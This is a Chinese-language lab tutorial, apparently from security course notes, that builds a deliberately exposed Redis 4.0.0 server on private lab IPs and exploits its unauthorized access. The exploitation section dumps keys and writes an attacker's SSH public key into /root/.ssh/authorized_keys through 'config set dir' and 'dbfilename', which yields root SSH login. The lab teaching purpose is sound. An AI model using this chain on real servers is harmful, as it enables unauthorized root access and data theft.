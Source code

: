 # Redis未授权访问漏洞

总结：

bind 127.0.0.1 改为 bind 0.0.0.0

## 01)实验环境准备

| ip              | 描述                           |
| --------------- | ------------------------------ |
| 192.168.172.251 | 安装redis。使用c源码编译安装。 |
| 192.168.172.252 | 安装redis-cli的客户端          |

![image-20240115203718928](01Redis未授权访问漏洞.assets/image-20240115203718928.png)





## 02)编译&安装redis

目标：

- 在Linux中安装Redis。

- 上传centos7上安装。

![image-20240115204243968](01Redis未授权访问漏洞.assets/image-20240115204243968.png)



第一步：解压安装包，命令：

```shell
tar -zxvf redis-4.0.0.tar.gz -C /usr/local
```

查看解压的目录

```shell
cd /usr/local
```

![image-20240115204347307](01Redis未授权访问漏洞.assets/image-20240115204347307.png)



第二步：安装Redis的依赖环境gcc，命令：

```shell
yum install gcc-c++
```

![image-20240115204425618](01Redis未授权访问漏洞.assets/image-20240115204425618.png)



![image-20240115204450764](01Redis未授权访问漏洞.assets/image-20240115204450764.png)





![image-20240115204507493](01Redis未授权访问漏洞.assets/image-20240115204507493.png)

第三步：进入/usr/local/redis-4.0.0，进行编译，命令：

```shell
 cd /usr/local/redis-4.0.0
```

![image-20240115204614864](01Redis未授权访问漏洞.assets/image-20240115204614864.png)

```shell
make
```

![image-20240115204540611](01Redis未授权访问漏洞.assets/image-20240115204540611.png)



![image-20240115204720080](01Redis未授权访问漏洞.assets/image-20240115204720080.png)

第四步：进入redis的src目录进行安装，命令：

![image-20240115204856199](01Redis未授权访问漏洞.assets/image-20240115204856199.png)

```shell
make install
```

安装后重点文件说明：

| 路径                                    | 描述              |
| :-------------------------------------- | ----------------- |
| /usr/local/redis-4.0.0/src/redis-server | Redis服务启动脚本 |
| /usr/local/redis-4.0.0/src/redis-cli    | Redis客户端脚本   |
| /usr/local/redis-4.0.0/redis.conf       | Redis配置文件     |



如果目标系统存在未授权访问漏洞，则可以成功进行连接。输入info命令， 可以查看Redis服务的版本号、配置文件目录、进程ID号等，如下所示





- 编译中遇到的问题！

![image-20240115210229630](01Redis未授权访问漏洞.assets/image-20240115210229630.png)



解决：

直接安装新的tcl,命令如下:

```shell
yum install -y tcl-devel
```

清空之前的make的缓存命令:

```shell
make distclean
```

重新make编译命令:

```shell
make
```

结束后重新测试命令:

```shell
make test
```

## 02)编译结果

![image-20240115210133322](01Redis未授权访问漏洞.assets/image-20240115210133322.png)



- 移动到另外一个目录中取

![image-20240115210545140](01Redis未授权访问漏洞.assets/image-20240115210545140.png)

```shell
cp /usr/local/redis-4.0.0/redis.conf ./redis/
cp /usr/local/redis-4.0.0/src/redis-cli ./redis/
cp /usr/local/redis-4.0.0/src/redis-server ./redis/
```

![image-20240115210823362](01Redis未授权访问漏洞.assets/image-20240115210823362.png)



## 03)redis开启远程连接

```shell
# 允许任何主机连接、访问
bind 127.0.0.1 改为 bind 0.0.0.0
 
# 关闭保护模式
protected-mode yes 改为 protected-mode no
 
# 允许启动后在后台运行，即关闭命令行窗口后仍能运行
daemonize no 改为 daemonize yes
```

启动

```shell
redis-server ./redis.conf
```

![image-20240115212300004](01Redis未授权访问漏洞.assets/image-20240115212300004.png)





## 04另外一台机子连接redis

![image-20240115212628836](01Redis未授权访问漏洞.assets/image-20240115212628836.png)







## 05)漏洞利用

当与远程Redis建立好连接后，通过Redis指令就能查询所需要的敏感信息。 下面就Redis一些常用指令进行简单介绍：

查看key和其对应的值

```shell
keys *
```

获取用户名

```shell
get user
```

![image-20240115212914215](01Redis未授权访问漏洞.assets/image-20240115212914215.png)







获取目标权限的常规利用方式



在本地主机生成密钥key的命令如下

```shell
 ssh-keygen -t rsa
```

![image-20240115213330569](01Redis未授权访问漏洞.assets/image-20240115213330569.png)





在目录/root/.ssh下查看生成结果，并将公钥导入txt文件中，命令如下

```shell
>>> cd /root/.ssh
>>> ls
>>> (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
>>> cat /root/key.txt

```

![image-20240115213545745](01Redis未授权访问漏洞.assets/image-20240115213545745.png)





将txt文件中的公钥导入Redis缓存中，命令如下:

```shell
cat /root/key.txt | redis-cli -h 192.168.172.251
```

![image-20240115214205569](01Redis未授权访问漏洞.assets/image-20240115214205569.png)



连接到目标主机，更改配置文件路径为/root/.ssh，设定文件名称为 authorized-keys，代码如下

```shell
redis-cli -h 192.168.172.251
config set dir /root/.ssh
Config set dbfilename authorized_keys
save
```



![image-20240115214603176](01Redis未授权访问漏洞.assets/image-20240115214603176.png)



执行这个命令前对方电脑也要有响应的/root/.ssh目录。

![image-20240115214720919](01Redis未授权访问漏洞.assets/image-20240115214720919.png)



![image-20240115214744844](01Redis未授权访问漏洞.assets/image-20240115214744844.png)



## 06)远程登入目标主机

通过SSH协议连接到远程目标主机，命令如下：

```shell
ssh 192.168.172.251
```

运行结果连接到目标主机，如下所示

![image-20240115214840074](01Redis未授权访问漏洞.assets/image-20240115214840074.png)



